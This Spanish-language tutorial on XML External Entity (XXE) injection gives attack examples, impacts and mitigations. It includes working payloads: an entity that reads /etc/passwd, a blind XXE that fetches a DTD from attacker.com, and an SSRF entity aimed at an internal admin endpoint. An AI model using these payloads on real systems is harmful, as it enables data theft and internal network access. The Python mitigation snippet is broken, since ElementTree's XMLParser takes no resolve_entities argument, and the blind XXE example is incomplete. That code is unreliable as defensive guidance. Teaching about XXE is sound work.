 
---

XML External Entity Injection (XXE) es una vulnerabilidad grave que puede comprometer la seguridad de sistemas que procesan datos XML. A continuación, se presenta un resumen estructurado sobre este tema, incluyendo cómo funciona, ejemplos de ataque, sus implicaciones, y formas de mitigar el riesgo.

---

### **¿Qué es una inyección de entidad externa XML (XXE)?**

XXE es una vulnerabilidad en la que un atacante inyecta entidades XML maliciosas en entradas que son procesadas por aplicaciones que no validan adecuadamente los datos XML.

#### **Conceptos Clave**

1. **Entidades XML**: Son referencias utilizadas dentro de un documento XML para insertar contenido, como texto o referencias a recursos externos.
2. **DTD (Document Type Definition)**: Define las reglas y estructura de un archivo XML, incluyendo entidades externas.

---

### **Ejemplo de un ataque XXE básico**

Un archivo XML malicioso puede incluir una entidad que accede a un archivo local del servidor:

#### **Archivo XML Malicioso**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <data>&xxe;</data>
</root>
```

1. **Definición de la entidad maliciosa**:
    - `<!ENTITY xxe SYSTEM "file:///etc/passwd">` define una entidad que apunta a un archivo local.
2. **Ejecución de la entidad**:
    - Cuando el servidor procesa el XML, sustituye `&xxe;` con el contenido del archivo `/etc/passwd`.

#### **Resultado del ataque**:

El atacante podría recibir información confidencial del archivo `/etc/passwd`.

---

### **Técnicas avanzadas de XXE**

1. **Ataque "ciegas" (Blind XXE)**:
    
    - Se utiliza un DTD externo para realizar consultas fuera de banda.
    - Ejemplo:
        
        ```xml
        <!ENTITY % file SYSTEM "file:///etc/hostname">
        <!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">
        %dtd;
        ```
        
    - El servidor accede a `http://attacker.com/malicious.dtd`, y el atacante recibe información sobre el sistema objetivo.
2. **SSRF (Server-Side Request Forgery) con XXE**:
    
    - Se redirige al servidor para realizar solicitudes HTTP a servicios internos.
    - Ejemplo:
        
        ```xml
        <!ENTITY xxe SYSTEM "http://localhost:8000/admin">
        <root>&xxe;</root>
        ```
        

---

### **Impactos de un ataque XXE**

- **Exposición de datos sensibles**: Archivos locales, credenciales o configuraciones.
- **Escaneo de red interna**: Descubrir servicios protegidos.
- **Ejecución de SSRF**: Acceso a servicios internos o APIs privadas.
- **Interrupción del servicio**: Algunos procesadores XML podrían entrar en un ciclo infinito.

---

### **Prevención de ataques XXE**

1. **Deshabilitar la resolución de entidades externas**:
    
    - Configura el analizador XML para que no procese entidades externas.
        
        ```python
        import xml.etree.ElementTree as ET
        parser = ET.XMLParser(resolve_entities=False)
        ```
        
2. **Validar y sanitizar entradas**:
    
    - Nunca confíes en los datos XML proporcionados por los usuarios sin validarlos.
3. **Uso de bibliotecas seguras**:
    
    - Elige bibliotecas de procesamiento XML que no admitan DTDs por defecto, como `defusedxml` en Python.
        
        ```bash
        pip install defusedxml
        ```
        
4. **Aplicar restricciones en el servidor**:
    
    - Configura firewalls para bloquear solicitudes hacia recursos no autorizados.

---

### **Recursos de aprendizaje y práctica**

Para aprender más sobre la vulnerabilidad XXE y practicar en un entorno seguro:

- **[XXELab en GitHub](https://github.com/jbarone/xxelab)**: Un laboratorio diseñado para practicar y entender ataques XXE.

---

### **Conclusión**

La inyección XXE es una vulnerabilidad peligrosa que puede explotarse para obtener información confidencial, comprometer sistemas y realizar ataques SSRF. Implementar controles de seguridad adecuados en aplicaciones que procesan datos XML es esencial para mitigar este tipo de amenazas.

---

[[OWASP]]